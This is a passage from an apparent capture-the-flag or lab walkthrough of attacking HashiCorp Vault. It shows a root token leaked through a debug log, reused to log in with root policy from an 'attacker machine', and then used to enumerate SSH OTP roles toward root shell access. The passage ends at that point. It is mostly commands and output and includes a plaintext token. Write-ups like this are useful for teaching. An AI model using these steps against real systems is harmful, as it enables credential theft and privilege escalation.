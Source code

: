 Now check:

```bash
cat debug.log
```

🎉 Output:

```
Master token found in config: hvs.I0ewVsmaKU1SwVZAKR3T0mmG
```

---

## 5. Vault Token Abuse

Now we have a **master/root Vault token**.

On attacker machine:

```bash
vault login
Token (will be hidden): hvs.I0ewVsmaKU1SwVZAKR3T0mmG
```

Result:

```
Success! You are authenticated.
Policies: ["root"]
```

This token has **root policy** → complete control of Vault.

---

## 6. Exploiting Vault SSH Backend

Vault has an SSH secrets engine enabled:

```bash
vault list ssh/roles
```

Shows:

```
admin_otp_key_role
dev_otp_key_role
```

Inspect one:

```bash
vault read ssh/roles/admin_otp_key_role
```

```
allowed_users   root
key_type        otp
port            22
cidr_list       10.0.0.0/8
```
